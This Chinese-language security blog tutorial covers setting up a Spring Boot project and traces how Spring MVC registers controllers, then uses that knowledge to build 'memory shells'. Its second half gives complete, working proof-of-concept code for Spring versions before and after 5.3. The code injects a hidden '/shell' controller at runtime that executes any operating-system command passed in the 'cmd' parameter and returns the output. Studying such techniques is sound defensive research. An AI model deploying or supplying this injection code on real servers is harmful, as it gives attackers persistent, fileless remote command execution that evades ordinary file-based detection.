关于Spring的一些基础知识放在了[Java之Spring基础](https://wanth3f1ag.top/2025/12/02/Java%E4%B9%8BSpring%E5%9F%BA%E7%A1%80/) 之前没了解过Spring的可以稍微看一下

# 搭建Spring Boot项目

第一种是直接在spring的官网`start.spring.io`搭建



ADD DEPENDENCIES可以添加依赖，配置好后直接GENERATE导出项目压缩包，解压后直接用IDEA打开工作目录就能用了

另一种是直接在IDEA中创建Spring，其实本质上和在官网搭建没什么区别，可以看到服务器URL也是之前的地址

但是有时候访问比较慢，可以换成阿里云的网站要快些 `https://start.aliyun.com/`



最后一种的话就是在Maven项目中手动导入依赖了

先创建一个Maven项目，然后编写pom.xml

```xml
<project xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
  xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
  <modelVersion>4.0.0</modelVersion>

  <groupId>com.example</groupId>
  <artifactId>SpringMemoryShell</artifactId>
  <version>1.0-SNAPSHOT</version>
  <packaging>jar</packaging>

  <name>SpringMemoryShell</name>
  <url>http://maven.apache.org</url>

  <properties>
    <project.build.sourceEncoding>UTF-8</project.build.sourceEncoding>
    <maven.compiler.source>17</maven.compiler.source>
    <maven.compiler.target>17</maven.compiler.target>
  </properties>

  <parent>
    <groupId>org.springframework.boot</groupId>
    <artifactId>spring-boot-starter-parent</artifactId>
    <version>4.0.5</version>
  </parent>

  <dependencies>
    <!-- Spring Web MVC 依赖 -->
    <dependency>
      <groupId>org.springframework.boot</groupId>
      <artifactId>spring-boot-starter-web</artifactId>
    </dependency>
  </dependencies>
</project>

```

然后我们写个启动类，注意，这个启动类需要放在指定的包名根目录下

```java
package com.example;

import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;

@SpringBootApplication
public class SpringBootStart {
    public static void main(String[] args) {
        SpringApplication.run(SpringBootStart.class, args);
    }
}

```

运行main方法



这样就表示我们搭建成功了，接下来就是编写控制器代码和一些处理逻辑代码了，之后启动项目只需要运行该启动类的main方法即可

# Spring Boot项目结构

- 第一个是pom.xml中的parent标签

SpringBoot项目必须继承spring-boot-starter-parent，所有的SpringBoot项目都得是spring-boot-starter-parent的子项目。

spring-boot-starter-parent中定义了常用配置、依赖、插件等信息，供SpringBoot项目继承使用。所以后续的一些起步依赖比如spring-boot-starter-web就不需要额外添加版本号了

- 第二个是启动类

启动类要放在最外层的包根目录下，因为项目启动后加载文件加载项目都是基于启动类起的根目录开始的

参考：https://cloud.tencent.com/developer/article/2355059

# 编写一个控制器Controller

基于我Spring基础文章里提到的注解，我们可以手写出一个HelloController

```java
package com.example.Controller;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class HelloController {

    @ResponseBody
    @RequestMapping("/hello")
    public String Hello(){
        return "Hello World";
    }
}

```

ResponseBody注解的作用是**将方法的返回值直接写入 HTTP 响应体**，如果没有这个注解，则会去 `templates/` 目录下找和返回值同名html文件进行渲染

启动后访问hello路由



# Spring Controller代码分析

我这里调试是用的Spring-webmvc-7.0.6

和Servlet一样，Spring MVC可以在运行时动态添加Controller，回顾一下Servlet，在动态注册Servlet的时候需要两个东西：Servlet对象本身和ServletMapping路径映射，同样的，在Spring中注册Controller也需要两个东西：Controller对象本身和RequestMapping路径映射

## Controller注册流程分析

Spring MVC在初始化时，在每个容器的 bean 构造方法、属性设置之后，将会使用 InitializingBean 的 `afterPropertiesSet` 方法进行 Bean 的初始化操作，其中实现类 RequestMappingHandlerMapping 用来处理具有 `@Controller` 注解类中的方法级别的 `@RequestMapping` 以及 RequestMappingInfo 实例的创建。

看到RequestMappingHandlerMapping#afterPropertiesSet()

```java
	public void afterPropertiesSet() {
		this.config = new RequestMappingInfo.BuilderConfiguration();
		this.config.setContentNegotiationManager(getContentNegotiationManager());
		this.config.setApiVersionStrategy(getApiVersionStrategy());

		if (getPatternParser() != null) {
			this.config.setPatternParser(getPatternParser());
		}
		else {
			this.config.setPathMatcher(getPathMatcher());
		}

		super.afterPropertiesSet();
	}
```

初始化一个配置类RequestMappingInfo.BuilderConfiguration，随后调用父类的afterPropertiesSet方法，也就是AbstractHandlerMethodMapping#afterPropertiesSet

```java
	@Override
	public void afterPropertiesSet() {
		initHandlerMethods();
	}
```

这个方法调用了 initHandlerMethods 方法

### initHandlerMethods处理逻辑

在`org.springframework.web.servlet.handler.AbstractHandlerMethodMapping#initHandlerMethods`处打上断点



通过`getCandidateBeanNames()`方法获取到所有的 Bean并遍历，找出其中的请求处理方法并注册。跟进processCandidateBean方法

```java
	protected void processCandidateBean(String beanName) {
		Class<?> beanType = null;
		try {
			beanType = obtainApplicationContext().getType(beanName);
		}
		catch (Throwable ex) {
			// An unresolvable bean type, probably from a lazy bean - let's ignore it.
			if (logger.isTraceEnabled()) {
				logger.trace("Could not resolve type for bean '" + beanName + "'", ex);
			}
		}
		if (beanType != null && isHandler(beanType)) {
			detectHandlerMethods(beanName);
		}
	}
```

`isHandler` 方法判断当前 bean 定义是否带有 Controller 或 RequestMapping 注解。



由于我的webmvc是7.x版本，Spring 7.x 的 `RequestMappingHandlerMapping` 现在专注于处理 `@RequestMapping` 和 `@HttpExchange` 注解，但这些注解必须在 `@Controller` 类中使用。所以这里isHandler方法只检查Controller 注解，而关于RequestMapping 的注解放在了detectHandlerMethods方法中

### 关键逻辑detectHandlerMethods

```java
	protected void detectHandlerMethods(Object handler) {
		Class<?> handlerType = (handler instanceof String beanName ?
				obtainApplicationContext().getType(beanName) : handler.getClass());

		if (handlerType != null) {
			Class<?> userType = ClassUtils.getUserClass(handlerType);
			Map<Method, T> methods = MethodIntrospector.selectMethods(userType,
					(MethodIntrospector.MetadataLookup<T>) method -> {
						try {
							return getMappingForMethod(method, userType);
						}
						catch (Throwable ex) {
							throw new IllegalStateException("Invalid mapping on handler class [" +
									userType.getName() + "]: " + method, ex);
						}
					});
			if (logger.isTraceEnabled()) {
				logger.trace(formatMappings(userType, methods));
			}
			else if (mappingsLogger.isDebugEnabled()) {
				mappingsLogger.debug(formatMappings(userType, methods));
			}
			methods.forEach((method, mapping) -> {
				Method invocableMethod = AopUtils.selectInvocableMethod(method, userType);
				registerHandlerMethod(handler, invocableMethod, mapping);
			});
		}
	}
```

这部分有两个关键功能，一个是 `getMappingForMethod` 方法根据 handler method 创建RequestMappingInfo 对象，一个是 `registerHandlerMethod` 方法将 handler method 与RequestMappingInfo 进行相关映射。

#### RequestMappingInfo创建

跟进getMappingForMethod方法

```java
	@Override
	protected @Nullable RequestMappingInfo getMappingForMethod(Method method, Class<?> handlerType) {
		validateCglibProxyMethodVisibility(method, handlerType);

		RequestMappingInfo info = createRequestMappingInfo(method);
		if (info != null) {
			RequestMappingInfo typeInfo = createRequestMappingInfo(handlerType);
			if (typeInfo != null) {
				info = typeInfo.combine(info);
			}
			if (info.isEmptyMapping()) {
				info = info.mutate().paths("", "/").options(this.config).build();
			}
			String prefix = getPathPrefix(handlerType);
			if (prefix != null) {
				info = RequestMappingInfo.paths(prefix).options(this.config).build().combine(info);
			}
		}
		return info;
	}
```

调用createRequestMappingInfo方法获取一个RequestMappingInfo对象，跟进看看

```java
	private @Nullable RequestMappingInfo createRequestMappingInfo(AnnotatedElement element) {

		List<AnnotationDescriptor> descriptors =
				MergedAnnotations.from(element, SearchStrategy.TYPE_HIERARCHY, RepeatableContainers.none())
						.stream()
						.filter(MergedAnnotationPredicates.typeIn(RequestMapping.class, HttpExchange.class))
						.filter(MergedAnnotationPredicates.firstRunOf(MergedAnnotation::getAggregateIndex))
						.map(AnnotationDescriptor::new)
						.distinct()
						.toList();

		RequestMappingInfo info = null;
		RequestCondition<?> customCondition = (element instanceof Class<?> clazz ?
				getCustomTypeCondition(clazz) : getCustomMethodCondition((Method) element));

		List<AnnotationDescriptor> mappingDescriptors =
				descriptors.stream().filter(desc -> desc.annotation instanceof RequestMapping).toList();

		if (!mappingDescriptors.isEmpty()) {
			checkMultipleAnnotations(element, mappingDescriptors);
			info = createRequestMappingInfo((RequestMapping) mappingDescriptors.get(0).annotation, customCondition);
		}

		List<AnnotationDescriptor> exchangeDescriptors =
				descriptors.stream().filter(desc -> desc.annotation instanceof HttpExchange).toList();

		if (!exchangeDescriptors.isEmpty()) {
			checkMultipleAnnotations(element, info, mappingDescriptors, exchangeDescriptors);
			info = createRequestMappingInfo((HttpExchange) exchangeDescriptors.get(0).annotation, customCondition);
		}

		if (info != null && getApiVersionStrategy() instanceof DefaultApiVersionStrategy davs) {
			String version = info.getVersionCondition().getVersion();
			if (version != null) {
				davs.addMappedVersion(version);
			}
		}

		return info;
	}
```

扫描所有注解，包括父类和接口上的注解，`.filter(MergedAnnotationPredicates.typeIn(RequestMapping.class, HttpExchange.class))`保留了`@RequestMapping` 和 `@HttpExchange`注解



后面就是处理`@RequestMapping`和`@HttpExchange`的逻辑了

getMappingForMethod方法中`info = info.mutate().paths("", "/").options(this.config).build();`是一种Builder 模式，后面写内存马能用到

回到detectHandlerMethods方法



看看最后的Map是什么样的



key就是一个Method对象，指向Bean对象中的方法，value就是一个RequestMappinginfo对象，其中包含一个路径参数pathPatternsCondition中

#### registerHandlerMethod添加映射

detectHandlerMethods最后调用registerHandlerMethod方法添加路径映射并注册到路由表中

```java
	protected void registerHandlerMethod(Object handler, Method method, T mapping) {
		this.mappingRegistry.register(mapping, handler, method);
	}
```

跟进看看mappingRegistry.register方法



将传入的`RequestMappingInfo`对象、`handler`名称和对应的`method`方法进行映射和包装处理并添加

相关属性存储如下：



到这里全部的注册流程就走完了

# 动态注入Controller

主要是两点

第一个是RequestMappingHandlerMapping的获取

根据上面的分析可以看到，主要是通过最后的AbstractHandlerMethodMapping类中registerHandlerMethod方法的`this.mappingRegistry.register`去进行动态注册的，回溯一下可以看到registerHandlerMethod方法的上层 调用是在`RequestMappingHandlerMapping#registerHandlerMethod`

```java
	protected void registerHandlerMethod(Object handler, Method method, RequestMappingInfo mapping) {
		super.registerHandlerMethod(handler, method, mapping);
		updateConsumesCondition(mapping, method);
	}
```

所以我们需要找到Spring中的RequestMappingHandlerMapping对象实例，才能进行动态注册

而RequestMappingHandlerMapping对象本身是spring来管理的，可以通过ApplicationContext获取到

`不过比register方法更方便的是直接调用RequestMappingHandlerMapping#registerMapping`

```java
    public void registerMapping(T mapping, Object handler, Method method) {
        if (this.logger.isTraceEnabled()) {
            this.logger.trace("Register \"" + mapping + "\" to " + method.toGenericString());
        }

        this.mappingRegistry.register(mapping, handler, method);
    }
```

这里会自动调用`mappingRegistry.register`，后面就是基于这个去写的

第二个是RequestMappingInfo对象的内容

其实这个前面有提到过，但是由于我的控制器代码写的很简单，没有用到其他的注解例如`@GetMapping`，正常的RequestMappingInfo对象有三个比较重要的参数

```java
patternsCondition：对应的请求地址
handlerMethod：对应的请求方法
methodsCondition ：对应的请求方式
```

注意：springboot 2.6.x之后的版本是pathPatternsCondition而不是patternsCondition，比如我上面截图中就是pathPatternsCondition

所以最终动态注册的流程是：

1. 获取 `WebApplicationContext`
2. 获取 `RequestMappingHandlerMapping` 实例
3. 通过反射获取自定义 `Controller` 的恶意方法的 `Method` 对象
4. 定义 `RequestMappingInfo`
5. 动态注册 `Controller`

### WebApplicationContext如何获取

参考师傅的文章中给出了五种获取的方法：https://github.com/dota-st/JavaSec/blob/master/05-%E5%86%85%E5%AD%98%E9%A9%AC%E4%B8%93%E5%8C%BA/4-Spring%E5%86%85%E5%AD%98%E9%A9%AC%E4%B9%8BController/Controller%E5%86%85%E5%AD%98%E9%A9%AC.md

#### **1.getCurrentWebApplicationContext**

```java
WebApplicationContext context = ContextLoader.getCurrentWebApplicationContext();
```

#### 2.**WebApplicationContextUtils**

```java
WebApplicationContext context = WebApplicationContextUtils.getWebApplicationContext(RequestContextUtils.findWebApplicationContext(((ServletRequestAttributes)RequestContextHolder.currentRequestAttributes()).getRequest()).getServletContext());
```

这里`WebApplicationContextUtils.getWebApplicationContext()`也可以替换成`WebApplicationContextUtils.getRequiredWebApplicationContext()`

#### 3.**RequestContextUtils**

通过`ServletRequest` 类的实例来获得 `Child WebApplicationContext`。

```java
WebApplicationContext context = RequestContextUtils.findWebApplicationContext(((ServletRequestAttributes)RequestContextHolder.currentRequestAttributes()).getRequest());
```

函数原型为 `public static WebApplicationContext getWebApplicationContext(ServletRequest request)` （spring 3.1 中`findWebApplicationContext`需要换成`getWebApplicationContext` ）

#### 4.**getAttribute**

```java
WebApplicationContext context = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
```

其中`currentRequestAttributes()`替换成`getRequestAttributes()`也同样有效；`getAttribute`参数中的 0 代表从当前 request 中获取而不是从当前的 session中 获取属性值。

#### **5.LiveBeansView**(>=3.2.x)

```java
//反射 org.springframework.context.support.LiveBeansView 类 applicationContexts 属性
java.lang.reflect.Field filed = Class.forName("org.springframework.context.support.LiveBeansView").getDeclaredField("applicationContexts");
//属性被 private 修饰，所以setAccessible true
filed.setAccessible(true);
//获取一个 ApplicationContext 实例
org.springframework.web.context.WebApplicationContext context =(org.springframework.web.context.WebApplicationContext) ((java.util.LinkedHashSet)filed.get(null)).iterator().next();
```

基于上面的分析可以给出一个动态注册poc

### 动态注册poc

```java
//获取上下文WebApplicationContext
WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);

//通过 context 获取 RequestMappingHandlerMapping 对象
RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);

//路径映射绑定
Field configField = requestMappingHandlerMapping.getClass().getDeclaredField("config");
configField.setAccessible(true);
// springboot 2.6.x之后的版本需要pathPatternsCondition
RequestMappingInfo.BuilderConfiguration config = (RequestMappingInfo.BuilderConfiguration) configField.get(requestMappingHandlerMapping);
RequestMappingInfo requestMappingInfo = RequestMappingInfo.paths(path).options(config).build();
InjectedController injectedController = new InjectedController();
requestMappingHandlerMapping.registerMapping(requestMappingInfo, injectedController, method);
```

最后InjectedController就是我们需要动态注册的Controller，method就是需要注册的方法

# Spring<5.3的Controller内存马

在<2.6.0版本的Spring中可以直接new一个RequestMappingInfo

```java
package com.example.Controller;

import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;
import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Scanner;

@RestController
public class MemshellController {
    
    @RequestMapping("/inject_before_2.6.0")
    public String inject2() throws Exception{
        String path = "/shell";
        //获取上下文WebApplicationContext
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        //通过 context 获取 RequestMappingHandlerMapping 对象
        RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);

        // springboot 2.6.x之后的版本需要pathPatternsCondition
        Method method = InjectedController.class.getMethod("cmd");
        PatternsRequestCondition urlPattern = new PatternsRequestCondition(path);
        RequestMethodsRequestCondition condition = new RequestMethodsRequestCondition();
        RequestMappingInfo requestMappingInfo = new RequestMappingInfo(urlPattern, condition, null, null, null, null, null);
        InjectedController injectedController = new InjectedController();
        requestMappingHandlerMapping.registerMapping(requestMappingInfo, injectedController, method);
        return "Inject successful";
    }
    public static class InjectedController {
        public InjectedController() {

        }
        public void cmd() throws Exception {
            HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
            HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
            response.setCharacterEncoding("GBK");
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
                response.getWriter().close();
            }
        }
    }
}
```

# Spring>=5.3的Controller内存马

因为 **Spring 5.3 之后** `RequestMappingInfo` 的构造函数被废弃了，直接 `new RequestMappingInfo(...)` 的方式在新版本会失效或报错。新版本推荐使用 Builder 模式，但 Builder 需要传入一个 `BuilderConfiguration` 对象来保持与当前 `HandlerMapping` 的配置一致（比如路径匹配策略），而这个对象是 `RequestMappingHandlerMapping` 的私有字段，只能通过反射拿到。

poc

```java
package com.example.Controller;

import jakarta.servlet.http.HttpServletRequest;
import jakarta.servlet.http.HttpServletResponse;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.RestController;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.context.request.ServletRequestAttributes;
import org.springframework.web.servlet.mvc.method.RequestMappingInfo;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

import java.io.InputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;
import java.util.Scanner;

@RestController
public class MemshellController {

    @RequestMapping("/inject_after_2.6.0")
    public String inject() throws Exception {
        String path = "/shell";
        //获取上下文WebApplicationContext
        WebApplicationContext context = (WebApplicationContext) RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);

        //通过 context 获取 RequestMappingHandlerMapping 对象
        RequestMappingHandlerMapping requestMappingHandlerMapping = context.getBean(RequestMappingHandlerMapping.class);

        //路径映射绑定
        Field configField = requestMappingHandlerMapping.getClass().getDeclaredField("config");
        configField.setAccessible(true);
        RequestMappingInfo.BuilderConfiguration config = (RequestMappingInfo.BuilderConfiguration) configField.get(requestMappingHandlerMapping);
        
        Method method = InjectedController.class.getMethod("cmd");
        RequestMappingInfo requestMappingInfo = RequestMappingInfo.paths(path).options(config).build();
        
        InjectedController injectedController = new InjectedController();
        requestMappingHandlerMapping.registerMapping(requestMappingInfo, injectedController, method);
        return "Inject successful";
    }

    @RequestMapping("/inject")
    public static class InjectedController {
        public InjectedController() {

        }
        public void cmd() throws Exception {
            HttpServletRequest request = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getRequest();
            HttpServletResponse response = ((ServletRequestAttributes) (RequestContextHolder.currentRequestAttributes())).getResponse();
            response.setCharacterEncoding("GBK");
            if (request.getParameter("cmd") != null) {
                boolean isLinux = true;
                String osTyp = System.getProperty("os.name");
                if (osTyp != null && osTyp.toLowerCase().contains("win")) {
                    isLinux = false;
                }
                String[] cmds = isLinux ? new String[]{"sh", "-c", request.getParameter("cmd")} : new String[]{"cmd.exe", "/c", request.getParameter("cmd")};
                InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
                Scanner s = new Scanner(in, "GBK").useDelimiter("\\A");
                String output = s.hasNext() ? s.next() : "";
                response.getWriter().write(output);
                response.getWriter().flush();
                response.getWriter().close();
            }
        }
    }
}

```

启动Spring并访问inject路由就可以成功注入内存马了

参考文章：

https://su18.org/post/memory-shell/#spring-controller-%E5%86%85%E5%AD%98%E9%A9%AC

https://nlrvana.github.io/spring-mvc%E6%A1%86%E6%9E%B6%E5%9E%8B%E5%86%85%E5%AD%98%E9%A9%AC/#springboot--260-1

